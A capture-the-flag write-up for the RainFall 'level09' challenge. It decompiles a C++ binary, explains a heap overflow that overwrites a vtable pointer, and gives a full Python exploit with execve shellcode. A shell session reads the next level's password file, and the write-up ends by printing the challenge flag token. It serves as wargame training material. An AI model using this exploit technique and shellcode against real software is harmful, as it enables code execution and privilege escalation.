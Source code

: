 # level09

## 1. Decompilation with Ghidra

The binary contains a C++ program with a class `N` that has a dangerous `setAnnotation` method:

```c
/* N::setAnnotation(char*) */
void __thiscall N::setAnnotation(N *this, char *param_1)
{
    size_t __n;
    
    __n = strlen(param_1);
    memcpy(this + 4, param_1, __n);  // ⚠️ No size check!
    return;
}

/* N::N(int) */
void __thiscall N::N(N *this, int param_1)
{
    *(undefined ***)this = &PTR_operator+_08048848;
    *(int *)(this + 0x68) = param_1;
    return;
}

void main(int param_1, int param_2)
{
    N *this;
    N *this_00;
    
    if (param_1 < 2) {
        _exit(1);
    }
    this = (N *)operator.new(0x6c);
    N::N(this, 5);
    this_00 = (N *)operator.new(0x6c);
    N::N(this_00, 6);
    N::setAnnotation(this, *(char **)(param_2 + 4));
    (*(code *)**(undefined4 **)this_00)(this_00, this);
    return;
}
```

## 2. Analysis of the vulnerability

The vulnerability:

- The program allocates two C++ objects of class `N` on the heap (108 bytes each).
- Each object has a vtable pointer at offset 0, annotation data at offset 4, and a value at offset 0x68.
- `N::setAnnotation()` copies `argv[1]` to `this + 4` using `memcpy()` without bounds checking.
- If `argv[1]` is longer than 104 bytes, it overflows into the second object.
- The vtable pointer of the second object can be overwritten.
- The program then calls a virtual function on the second object: `(*(code *)**(undefined4 **)this_00)(this_00, this)`

The virtual function call does **double dereferencing**:

1. Read vtable pointer → get address A
2. Read at address A → get address B (function pointer)
3. Jump to address B

**Solution:** Create a fake vtable structure that points to our shellcode!

## 3. Finding heap addresses with GDB

```bash
gdb ./level9
(gdb) break *0x0804861c  # After first operator.new
(gdb) break *0x0804863e  # After second operator.new
(gdb) run AAAA

# At first breakpoint
(gdb) info registers eax
eax = 0x0804a008  # Object 1

(gdb) continue

# At second breakpoint
(gdb) info registers eax
eax = 0x0804a078  # Object 2
```

Calculate addresses:

```
Object 1:     0x0804a008
Copy starts:  0x0804a00c (obj1 + 4)
Object 2:     0x0804a078
Fake vtable:  0x0804a07c (after overwritten vtable)
Shellcode:    0x0804a080 (after fake vtable)
```

## 4. Exploitation

Memory layout after overflow:

```
Heap:
0x0804a008: [Object 1: 108 bytes (0x6c)]
            ├─ [+0x00] vtable (4 bytes)
            ├─ [+0x04] annotation (100 bytes) ← setAnnotation writes here
            └─ [+0x68] value (4 bytes)
            
0x0804a074: [Padding: 4 bytes] ← malloc metadata

0x0804a078: [Object 2: 108 bytes (0x6c)]
            ├─ [+0x00] vtable (4 bytes) 🎯 TARGET
            ├─ [+0x04] annotation (100 bytes)
            └─ [+0x68] value (4 bytes)
```

Payload structure:

```python
#!/usr/bin/env python
import sys

# Shellcode execve("/bin/sh") - 21 bytes
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68"
shellcode += "\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

# Structure:
# [padding] [fake_vtable addr] [shellcode addr] [shellcode]

padding = "\x90" * 108
fake_vtable_addr = "\x7c\xa0\x04\x08"  # 0x0804a07c
shellcode_addr = "\x80\xa0\x04\x08"    # 0x0804a080

payload = padding + fake_vtable_addr + shellcode_addr + shellcode
sys.stdout.write(payload)
```

Memory after overflow:

```
0x0804a00c: [NOPs: 108 bytes]           ← Fills obj1 annotation
0x0804a078: [0x0804a07c]                ← Vtable obj2 (points to fake vtable)
0x0804a07c: [0x0804a080]                ← Fake vtable (points to shellcode)
0x0804a080: [\x31\xc9\xf7\xe1...]       ← Shellcode execve("/bin/sh")
```

Execution flow:

1. Program calls virtual function on obj2
2. Reads vtable at 0x0804a078 → finds 0x0804a07c
3. Reads at 0x0804a07c → finds 0x0804a080
4. Jumps to 0x0804a080 → **executes shellcode!** 🎉

Full exploitation session:

```bash
level9@RainFall:~$ ./level9 $(python /tmp/exploit.py)
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
[PASSWORD]
```

## 5. Token discovered

The token found `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
